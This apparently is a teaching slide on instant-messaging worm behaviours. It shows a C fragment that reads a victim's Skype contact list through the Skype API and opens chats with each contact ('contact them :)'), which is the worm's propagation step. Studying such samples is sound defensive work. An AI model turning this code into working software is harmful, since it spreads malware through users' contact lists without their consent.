

IM Worms-Behaviors

				if(strstr(SkypeData->lpData,"USERS "))
				{
					found_users = (char *)GlobalAlloc(GMEM_ZEROINIT|GMEM_FIXED,3096);

					if(found_users == NULL)
					{
						ExitProcess(0);
					}

					chat_cmd = (char *)GlobalAlloc(GMEM_ZEROINIT|GMEM_FIXED,3096+128);

					if(chat_cmd == NULL)
					{
						ExitProcess(0);
					}

					strcpy(found_users,(char *)SkypeData->lpData);

					strcpy(found_users,found_users+6);

					sprintf(chat_cmd,"CHAT CREATE %s",found_users);

					/* contact them :) */
					cds.dwData= 0;
                                 				cds.lpData= chat_cmd;
                    					cds.cbData= strlen(chat_cmd)+1;
	                				SendMessage(SkypeWnd, WM_COPYDATA, Answer , (LPARAM)&cds);

					GlobalFree(found_users);
					GlobalFree(chat_cmd);

				}